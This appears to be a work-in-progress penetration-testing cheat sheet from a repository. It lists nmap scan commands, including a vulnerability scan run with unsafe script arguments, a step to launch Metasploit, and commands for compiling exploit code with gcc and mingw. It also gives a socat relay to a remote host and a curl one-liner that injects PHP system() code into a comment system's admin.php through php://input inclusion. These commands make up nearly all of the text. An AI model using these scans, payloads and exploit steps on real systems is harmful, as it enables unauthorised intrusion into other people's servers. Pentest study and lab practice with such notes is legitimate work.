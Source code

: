 Personel:

## Nmap

### Initial Fast TCP Scan

```bash
sudo nmap -v -sS -sV -Pn --top-ports 1000 -oA initial_scan_192.168.0.1 10.10.10.xxx
```

### Full TCP Scan

```bash
sudo nmap -v -sS -Pn -sV -p 0-65535 -oA full_scan_192.168.0.1 10.10.10.xxx
```

### Top 100 UDP Scan

```bash
sudo nmap -v -sU -T4 -Pn --top-ports 100 -oA top_100_UDP_192.168.0.1 10.10.10.xxx
```

### Full Vulnerability scan

```bash
sudo nmap -v -sS  -Pn --script vuln --script-args=unsafe=1 -oA full_vuln_scan_192.168.0.1 10.10.10.xxx
```

### Open MetaSpoilt
#### After finding vulnerabilities from Full Vuln Scan (above)

```bash
sudo msfconsole
```

# Thats That. The rest is boring


**THIS IS WORK IN PROGRESS**

gcc -m32 -Wl,--hash-style=both -o exploit 18411.c 
Standalone GCC compiler (If machine does not have GCC)
chmod (file) 	- 	change file perms to be able to execute
socat TCP-LISTEN:51000,fork,reuseaddr OPENSSL:remotehost:51000,cafile=certificate.pem,verify=0

Mingw:
 i686-w64-mingw32- gcc(g++) exploit.c -o exploit -lws2_32

in case mingw32 does not support the code such as "__try" , compile in a windows vm:
Visual Studio Developer Command Line  (Developer Command Prompt for VS )
cl ex.cpp /link kernel32.lib shell32.lib user32.lib  

curl -s --data "<?system('ls -la');?>" "http://www.site/path/advanced_comment_system/admin.php?ACS_path=php://input%00"
